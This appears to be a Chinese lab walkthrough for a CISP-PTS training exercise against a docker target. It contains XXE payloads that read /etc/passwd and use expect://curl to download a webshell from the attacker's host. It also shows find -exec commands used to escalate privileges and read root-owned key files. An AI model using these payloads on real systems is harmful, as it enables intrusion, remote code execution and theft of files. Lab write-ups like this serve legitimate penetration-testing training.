







视频三前半段1:38:32




# 环境
```bash
su root                    密码xbw
/etc/init.d/apache2 stop
cd test/ceshi
docker-compose up -d
```

# 流程


```bash
https证书查看
 
 C:\Windows\System32\drivers\etc
192.168.147.130 www.cisp-pts.ya

http://www.cisp-pts.ya/manage/login.php

http://www.cisp-pts.ya/manage/setting.php抓包
将get转化为post，见图一
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE uuu [
<!ENTITY xxe SYSTEM "file:///etc/psswd" >]>
<config><title>&xxe;</title></config>


python -m SimpleHTTPServer 80      192.168.147.1


```

上图图一

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE uuu [
<!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'192.168.147.1/1.php'" >]>
<config><title>&xxe;</title></config>
```

连上webshell，查看上一级获得key7  


```bash
find /etc/passwd -exec whoami \;
find /etc/passwd -exec ls /root\;
find /etc/passwd -exec cat /root/key8.cisp \;
```



